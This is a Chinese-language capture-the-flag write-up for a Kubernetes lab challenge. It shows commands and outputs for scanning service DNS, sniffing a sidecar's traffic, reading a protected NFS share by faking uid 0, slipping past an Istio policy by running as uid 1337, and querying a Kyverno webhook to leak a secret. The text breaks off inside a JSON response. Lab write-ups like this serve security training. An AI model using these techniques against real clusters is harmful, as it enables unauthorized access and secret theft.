

# K8S LAN PARTY



:::warning
以下内容包含剧透，真做不出来再看
:::

## Setup

首先熟悉下环境：
- 通外网
- 没法下载大文件：`ulimit -a` 会发现 `file size (blocks, -f) 1024`
- 大部分常见工具都用

## Recon

<center></center>

> **DNSing with the stars**   
> You have compromised a Kubernetes pod, and your next objective is to compromise other internal services further.  
> As a warmup, utilize [DNS scanning](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue) to uncover hidden internal services and obtain the flag. We have preloaded your machine with [dnscan](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e) to ease this process for further challenges.  
> All the flags in the challenge follow the same format: `wiz_k8s_lan_party{*}`

<details>
  <summary>官方 Hint1</summary>
  <div>
    Make sure you scan the correct subnet. You can get a hint of what the correct subnet is by looking at the Kubernetes API server address in the machine’s environment variables.
    <details>
      <summary>
        官方 Hint2
      </summary>
      还没放呢
    </details>
  </div>
</details>

题目意思是，让你通过 dns 查找找到一个其他的服务，也很贴心的给你了 dns 爆破工具，分析下工具的源码可以发现，就是枚举 IP 然后反查 DNS 记录。

首先我们要知道为什么 k8s 里面的服务可以通过 DNS 访问到，这是因为 k8s 里面有一个叫 kube-dns 的服务，它会把 service 的名字解析成对应的 IP 地址。
一般来说，这个 DNS 服务是通过 CoreDNS 来实现的，我们可以看一下文档：

- https://coredns.io/plugins/kubernetes/
- https://github.com/kubernetes/dns/blob/master/docs/specification.md

第一个想到的肯定是类似于 CDK 里面枚举 DNS 的方法，但是你尝试一下就会发现，这个环境下是没有 wildcast 的，所以这个方法行不通。

那么就只能通过 IP 去反查，那么我们就需要知道他的 IP 段，所以接下来就得信息收集。

一般来说，k8s 环境下常见的信息收集手段

- 通过`env`命令拿到环境变量
- 通过`mount`命令拿到挂载的目录
- 查看`serviceaccount`的权限
- 查看`/etc/hosts` / `/etc/resolv.conf`等文件
- 查看其他的权限（Cgroups/cap...）

```sh
$ env
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
USER_ID=b0969fcf-e1b4-485e-aa3f-8c33f3f91439
HISTSIZE=2048
PWD=/home/player
HOME=/home/player
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
HISTFILE=/home/player/.bash_history
TMPDIR=/tmp
TERM=xterm-256color
SHLVL=1
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
HISTFILESIZE=2048
_=/usr/bin/env
```

```sh
$ cat /etc/resolv.conf
search k8s-lan-party.svc.cluster.local svc.cluster.local cluster.local us-west-1.compute.internal
nameserver 10.100.120.34
options ndots:5
```

显然，就扫`10.100.0.0/16`就行。

```sh
$ dnscan -subnet 10.100.0.0/16
34935 / 65536 [------------------------------------------------------------------->___________________________________________________________] 53.31% 958 p/s10.
100.136.254 getflag-service.k8s-lan-party.svc.cluster.local.
65376 / 65536 [------------------------------------------------------------------------------------------------------------------------------>] 99.76% 959 p/s10.
100.136.254 -> getflag-service.k8s-lan-party.svc.cluster.local.

$ curl getflag-service.k8s-lan-party.svc.cluster.local.
wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northen-star}
```

## Find Neighbours

<center></center>

> **Hello?**  
> Sometimes, it seems we are the only ones around, but we should always be on guard against invisible [sidecars](https://kubernetes.io/docs/concepts/workloads/pods/sidecar-containers/) reporting sensitive secrets.

<details>
  <summary>官方 Hint1</summary>
  <div>
    The sidecar container shares the same lifecycle, resources, and <u>network namespace</u> as the main container.
    <details>
      <summary>
        官方 Hint2
      </summary>
      还没放呢
    </details>
  </div>
</details>

这个题目的意思是，除了我们这个容器，这个 pod 下面还有其他的 sidecar container，我们需要找到这个 sidecar container，然后从这个 sidecar container 里面拿到 flag。

这里不太懂的同学可以学习一下 k8s 里面的 pod 和 container 的关系：

- https://kubernetes.io/zh-cn/docs/concepts/workloads/pods/
- https://kubernetes.io/zh-cn/docs/concepts/workloads/pods/sidecar-containers/

就会知道，同一个 pod 里面的容器，其他的 namespace 都是隔离的，但是 network namespace 是公用的，所以说我们可以通过这个特性来找到这个 sidecar container 在干啥。

```sh
$ netstat -np
netstat -np 
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 192.168.2.1:54616       10.100.171.123:80       TIME_WAIT   -                   
tcp        0      0 192.168.2.1:59080       10.100.171.123:80       TIME_WAIT   -                   
tcp        0      0 192.168.2.1:54630       10.100.171.123:80       TIME_WAIT   -                   
Active UNIX domain sockets (w/o servers)
Proto RefCnt Flags       Type       State         I-Node   PID/Program name     Path
```

发现有个读不到 PID 的进程，在一直访问这个站点，那么显然这个就是 sidecar container 干的了。所以直接 tcpdump 去获取他在干啥，就看到 flag 了。

```sh
$ tcpdump -v
tcpdump: listening on ns-fd4c83, link-type EN10MB (Ethernet), snapshot length 262144 bytes
03:22:43.397598 IP (tos 0x0, ttl 127, id 63038, offset 0, flags [DF], proto UDP (17), length 95)
    192.168.5.123.38398 > 10.100.0.10.domain: 48894+ A? reporting-service.k8s-lan-party.svc.cluster.local. (67)
03:22:43.397870 IP (tos 0x0, ttl 127, id 63039, offset 0, flags [DF], proto UDP (17), length 95)
    192.168.5.123.38398 > 10.100.0.10.domain: 44037+ AAAA? reporting-service.k8s-lan-party.svc.cluster.local. (67)
03:22:43.399150 IP (tos 0x0, ttl 124, id 50555, offset 0, flags [DF], proto UDP (17), length 160)
    10.100.0.10.domain > 192.168.5.123.38398: 48894*- 1/0/0 reporting-service.k8s-lan-party.svc.cluster.local. A 10.100.171.123 (132)
03:22:43.399223 IP (tos 0x0, ttl 124, id 50556, offset 0, flags [DF], proto UDP (17), length 188)
    10.100.0.10.domain > 192.168.5.123.38398: 44037*- 0/1/0 (160)
03:22:43.399298 IP (tos 0x0, ttl 127, id 49119, offset 0, flags [DF], proto TCP (6), length 60)
    192.168.5.123.35436 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [S], cksum 0x7c31 (incorrect -> 0x1fea), seq 4090355309, win 64240, options [mss 1460,sackOK,TS val 530265231 ecr 0,nop,wscale 7], length 0
03:22:43.399548 IP (tos 0x0, ttl 127, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    reporting-service.k8s-lan-party.svc.cluster.local.http > 192.168.5.123.35436: Flags [S.], cksum 0x7c31 (incorrect -> 0x6b7f), seq 3756559720, ack 4090355310, win 65160, options [mss 1460,sackOK,TS val 3948632084 ecr 530265231,nop,wscale 7], length 0
03:22:43.399559 IP (tos 0x0, ttl 127, id 49120, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.5.123.35436 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [.], cksum 0x7c29 (incorrect -> 0x96de), ack 1, win 502, options [nop,nop,TS val 530265231 ecr 3948632084], length 0
03:22:43.399599 IP (tos 0x0, ttl 127, id 49121, offset 0, flags [DF], proto TCP (6), length 266)
    192.168.5.123.35436 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [P.], cksum 0x7cff (incorrect -> 0x929d), seq 1:215, ack 1, win 502, options [nop,nop,TS val 530265231 ecr 3948632084], length 214: HTTP, length: 214
        POST / HTTP/1.1
        Host: reporting-service
        User-Agent: curl/7.64.0
        Accept: */*
        Content-Length: 63
        Content-Type: application/x-www-form-urlencoded

        wiz_k8s_lan_party{good-crime-comes-with-a-partner-in-a-sidecar}
03:22:43.399682 IP (tos 0x0, ttl 127, id 46413, offset 0, flags [DF], proto TCP (6), length 52)
    reporting-service.k8s-lan-party.svc.cluster.local.http > 192.168.5.123.35436: Flags [.], cksum 0x7c29 (incorrect -> 0x9602), ack 215, win 508, options [nop,nop,TS val 3948632084 ecr 530265231], length 0
03:22:43.403353 IP (tos 0x0, ttl 127, id 46414, offset 0, flags [DF], proto TCP (6), length 257)
    reporting-service.k8s-lan-party.svc.cluster.local.http > 192.168.5.123.35436: Flags [P.], cksum 0x7cf6 (incorrect -> 0x3459), seq 1:206, ack 215, win 508, options [nop,nop,TS val 3948632088 ecr 530265231], length 205: HTTP, length: 205
        HTTP/1.1 200 OK
        server: istio-envoy
        date: Fri, 15 Mar 2024 03:22:43 GMT
        content-type: text/plain
        x-envoy-upstream-service-time: 2
        x-envoy-decorator-operation: :0/*
        transfer-encoding: chunked

        0
```

## Data Leakage

<center></center>

> **Exposed File Share** 
> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based 🤦‍️.

<details>
  <summary>官方 Hint1</summary>
  <div>
    You might find it useful to look at the [documentaion](https://github.com/sahlberg/libnfs) for nfs-cat and nfs-ls.
    <details>
      <summary>
        官方 Hint2
      </summary>
      还没放呢
    </details>
  </div>
</details>

看他的描述，说他用了一种基于网络进行访问控制的云数据存储。k8s 里面涉及到云存储的一般都是用的 PV/PVC，然后通过 CSI 来挂载到 pod 里面的。所以我们可以通过查看这个 pod 的挂载来找到这个云存储。

```sh
$ mount
overlay on / type overlay (ro,nosuid,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1459/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1458/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1457/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1456/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1455/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1454/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1453/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1452/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1451/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1450/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1449/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1448/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1447/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1446/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1445/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1444/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1443/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1442/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/work)
overlay on /home/player type overlay (rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1459/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1458/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1457/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1456/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1455/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1454/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1453/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1452/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1451/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1450/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1449/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1448/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1447/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1446/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1445/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1444/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1443/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1442/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/work)
overlay on /tmp type overlay (rw,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1459/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1458/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1457/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1456/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1455/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1454/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1453/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1452/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1451/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1450/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1449/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1448/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1447/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1446/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1445/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1444/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1443/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1442/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/work)
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.23.121,local_lock=none,addr=192.168.124.98)
overlay on /etc/resolv.conf type overlay (ro,relatime,lowerdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1459/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1458/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1457/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1456/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1455/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1454/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1453/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1452/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1451/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1450/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1449/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1448/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1447/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1446/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1445/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1444/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1443/fs:/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1442/fs,upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/fs,workdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/1460/work)
tmpfs on /var/run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime,size=62022172k)
tmpfs on /dev/null type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /dev/urandom type tmpfs (rw,nosuid,size=65536k,mode=755)
none on /proc type proc (ro,relatime)
```

overlay 的直接忽略，🐶都知道没用，就看到那个 nfs 贼显眼，那么显然就是日这个 nfs 了。看眼他挂载的内容

```sh
$ ls -ahl /efs
total 8.0K
drwxr-xr-x 2 root   root   6.0K Mar 11 11:43 .
drwxr-xr-x 1 player player   51 Mar 15 07:24 ..
---------- 1 daemon daemon   73 Mar 11 13:52 flag.txt
```

显然就是没权限，得想办法绕过一下鉴权。

简单学习一下 nfs，传俩参数，就能直接读了。

```sh
$ nfs-cat 'nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4.1&uid=0&gid=0'
wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
```

P.S. 这里我想到了一种新的办法，用 ssh 端口转发出来，然后在自己的机器挂载，然后直接`sudo cat /mnt/flag.txt`就行了。

P.S.S. 这个机器要 ssh 比较曲折，得`ssh -R remote_port:local_host:local_port -o StrictHostKeyChecking=no user@remote_host`

## Bypass Boundaries

<center></center>

> **The Beauty and The Ist**  
> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

```yaml
## policy.yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

<details>
  <summary>官方 Hint1</summary>
  <div>
   Try examining Istio's [IPTables rules](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables).
    <details>
      <summary>
        官方 Hint2
      </summary>
      还没放呢
    </details>
  </div>
</details>

这个题目的意思是，我们要绕过 istio 的规则来获取 flag。本地起了 envoy 的 sidecar，从`127.0.0.1:15000`能 dump 下来 [配置](./config_dump.json)。就能找到目标服务是`istio-protected-pod-service.k8s-lan-party.svc.cluster.local:80`。

接下来就是要绕过 istio 的 policy，我们发现这个靶机不一样的是，他给了 root 权限。通过资料收集，可以知道，istio 是通过 iptables 来实现的：

- https://istio.io/latest/zh/blog/2019/data-plane-setup/
- https://istio.io/latest/zh/docs/ops/diagnostic-tools/proxy-cmd/
- https://jimmysong.io/blog/istio-sidecar-traffic-types/

从中可以知道，他的 iptables 类似于

```sh
-P PREROUTING ACCEPT
-P INPUT ACCEPT
-P OUTPUT ACCEPT
-P POSTROUTING ACCEPT
-N ISTIO_INBOUND
-N ISTIO_IN_REDIRECT
-N ISTIO_OUTPUT
-N ISTIO_REDIRECT
-A PREROUTING -p tcp -j ISTIO_INBOUND
-A OUTPUT -p tcp -j ISTIO_OUTPUT
-A ISTIO_INBOUND -p tcp -m tcp --dport 80 -j ISTIO_IN_REDIRECT
-A ISTIO_IN_REDIRECT -p tcp -j REDIRECT --to-ports 15001
-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -j ISTIO_REDIRECT
-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -d 127.0.0.1/32 -j RETURN
-A ISTIO_OUTPUT -j ISTIO_REDIRECT
-A ISTIO_REDIRECT -p tcp -j REDIRECT --to-ports 15001
```

从中可以发现，来自`uid=1337,gid=1337`的流量不会被重定向，那么我们就可以通过这个特性来绕过 istio 的规则。

```sh
$ su istio
$ bash
istio@wiz-k8s-lan-party:/tmp$ curl 10.100.224.159
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

## Lateral Movement

<center></center>

> **Who will guard the guardians?**  
> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

```yaml
## policy.yaml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

<details>
  <summary>官方 Hint1</summary>
  <div>
    Need a hand crafting AdmissionReview requests? Checkout https://github.com/anderseknert/kube-review.
    <details>
      <summary>
        官方 Hint2
      </summary>
      还没放呢
    </details>
  </div>
</details>

这个贼简单，为什么呢，因为我自己写过一个 admission controller，所以我知道这个东西是怎么回事。

首先我们要知道 [kyverno](https://kyverno.io/docs/introduction/#quick-start) 是个啥：
> Kyverno（希腊语“治理”）是专门为 Kubernetes 设计的策略引擎。
> Kyverno 在 Kubernetes 集群中作为动态准入控制器运行。Kyverno 从 Kubernetes API 服务器接收验证和改变准入 Webhook HTTP 回调，并应用匹配策略以返回执行准入策略或拒绝请求的结果。

不知道准入控制器是啥的可以看下

- https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/
- https://kubernetes.io/zh-cn/docs/reference/kubernetes-api/extend-resources/mutating-webhook-configuration-v1/

说白了就是通过写入一个配置，k8s 会在资源变更的时候，调用你给出的 webhook，然后校验/修改资源。

所以说不管 kyverno 是个啥，他最终肯定是通过添加一个`mutatingwebhookconfiguration.admissionregistration.k8s.io`来实现的。所以我们直接在自己的 k8s 集群上装一个，然后看一下就知道了

```yaml
## kubectl get mutatingwebhookconfiguration.admissionregistration.k8s.io/kyverno-resource-mutating-webhook-cfg -o yaml > kyverno-resource-mutating-webhook-cfg.yml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  creationTimestamp: "2024-03-15T06:02:05Z"
  generation: 67
  labels:
    webhook.kyverno.io/managed-by: kyverno
  name: kyverno-resource-mutating-webhook-cfg
  resourceVersion: "112504750"
  uid: 8f3e7793-a7f3-4b79-8012-32507988d932
webhooks:
- admissionReviewVersions:
  - v1
  clientConfig:
    caBundle: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUM3VENDQWRXZ0F3SUJBZ0lCQURBTkJna3Foa2lHOXcwQkFRc0ZBREFZTVJZd0ZBWURWUVFEREEwcUxtdDUKZG1WeWJtOHVjM1pqTUI0WERUSTBNRE14TlRBMU1ESXdORm9YRFRJMU1ETXhOVEEyTURJd05Gb3dHREVXTUJRRwpBMVVFQXd3TktpNXJlWFpsY201dkxuTjJZekNDQVNJd0RRWUpLb1pJaHZjTkFRRUJCUUFEZ2dFUEFEQ0NBUW9DCmdnRUJBTWVHRURLMmROVzNJbWpFa2szNGR3VWg0Q3JRY3kwNGY0eG5rTVlkcVVrWW9NWEtOSXkwK2JWa09ES2QKZTVSTElJbXQwL0JzZHRGemlZcnQvd3h0VDY1RHB2ajZxZTF1TElMZkU3WEMwQ2NWalRxS3BzdDZtRzcxdkZTdgpWQlg0d3lOK2k4WGxGNzFHdEdCejFTcmd0YUMxSFc3YWxPYWtlR2xiOHFPN3pGK2FRTU5IVVpVNVNXTVppcFkzCmVhL2gvNDhQQVhoV1JRalNZczFlSVRYMDEzREF4Z3BFSmlDYkdjeGlOMXJnODJkRituTjliaFRMaWdBY1Jua0oKZHNWMEo2Zi9KWm5XZHM0dmhDY0dQUzluQ2FiaTRwN3ZaWG1kTnRSRWNjSTlmZ2s4U0NiYmhyZG4wcE0vbkF3MApMdWpxQndPWkNWNFpsR2FweERWMCtabEFnblVDQXdFQUFhTkNNRUF3RGdZRFZSMFBBUUgvQkFRREFnS2tNQThHCkExVWRFd0VCL3dRRk1BTUJBZjh3SFFZRFZSME9CQllFRkN6WmtMVmZkVjVuTGJENloyUHRUQ2RrTDhJOE1BMEcKQ1NxR1NJYjNEUUVCQ3dVQUE0SUJBUUNRREprTFNDbDhqT1lsNzFjOEQwNHZUTkRuYlV4OTVyUk1ZVS9EWFdCVApQb0JTOElaTDY2VUZkVWdlL1JaUitGVDZ5UExRRjNQa3FRMVJmQjEyVXI1RU5sQzQ0WDJSeHJwc0hudDVNTGhLCk8zL2MveGg2ejNIS1FRUG5MZ2RRR1A2Q1FJYW9ETXNTZ3FQd2E2TXBsbFA3Q3ZzK0xvN0RjMWxQdUNRcUpDZG0KQTNJczcxYWREdmxTOXhSenNEK0VMSEpMdGowcnpuQWNHZFltLzh5Mkt6enZKY05uSjZ6MTRpcTkySHJHYjRvVgpMWWhpSVJpQUVOUEdDazRITDF6RkRxUWFtdnZyNU5tYWR3Qld5dGdmZjhOQTlvcWlHdEVZKzIyTy9GSnR4K0VrClFUV3Z6a3laVkQvZ0FTTG9WS3JjVmNCdEZveVJLUmpsbTU4MTFRVmxyYVpKCi0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
    service:
      name: kyverno-svc
      namespace: kyverno
      path: /mutate/fail
      port: 443
  failurePolicy: Fail
  matchPolicy: Equivalent
  name: mutate.kyverno.svc-fail
  namespaceSelector:
    matchExpressions:
    - key: kubernetes.io/metadata.name
      operator: NotIn
      values:
      - kyverno
  objectSelector: {}
  reinvocationPolicy: IfNeeded
  rules:
  - apiGroups:
    - ""
    apiVersions:
    - v1
    operations:
    - CREATE
    - UPDATE
    resources:
    - pods
    - pods/ephemeralcontainers
    - replicationcontrollers
    scope: Namespaced
  - apiGroups:
    - apps
    apiVersions:
    - v1
    operations:
    - CREATE
    - UPDATE
    resources:
    - daemonsets
    - deployments
    - replicasets
    - statefulsets
    scope: Namespaced
  - apiGroups:
    - batch
    apiVersions:
    - v1
    operations:
    - CREATE
    - UPDATE
    resources:
    - cronjobs
    - jobs
    scope: Namespaced
  sideEffects: NoneOnDryRun
  timeoutSeconds: 10
```

那就很明显了，往他这个地方打个请求，就能拿到他修改过的资源，其中自然就包含flag了。那么怎么构建一个合法的请求呢。我之前写过，所所以我直接[魔改一个](https://git.yoshino-s.xyz/yoshino-s/cilium-envoy-hook)，dump下来请求就行。（这里我就不给payload.json了，你总得自己搞点东西吧，笑）

```
curl -k -v https://kyverno-svc.kyverno.svc/mutate/fail -H 'Content-Type: application/json' -d @payload.json
```

结果

```json
{"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"3f33db0e-e2bf-4ccc-812f-b712a66f202d","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"system:serviceaccount:kube-system:replicaset-controller","uid":"26767d53-dec7-4473-b140-95657321e9fc","groups":["system:serviceaccounts","system:serviceaccounts:kube-system","system:authenticated"]},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"generateName":"test-785cb95b9f-","namespace":"test","creationTimestamp":null,"labels":{"k8s.kuboard.cn/name":"test","pod-template-hash":"785cb95b9f"},"ownerReferences":[{"apiVersion":"apps/v1","kind":"ReplicaSet","name":"test-785cb95b9f","uid":"5dca312e-1f5d-498c-b717-7a57f69707b9","controller":true,"blockOwnerDeletion":true}],"managedFields":[{"manager":"kube-controller-manager","operation":"Update","apiVersion":"v1","time":"2024-03-15T07:05:16Z","fieldsType":"FieldsV1","fieldsV1":{"f:metadata":{"f:generateName":{},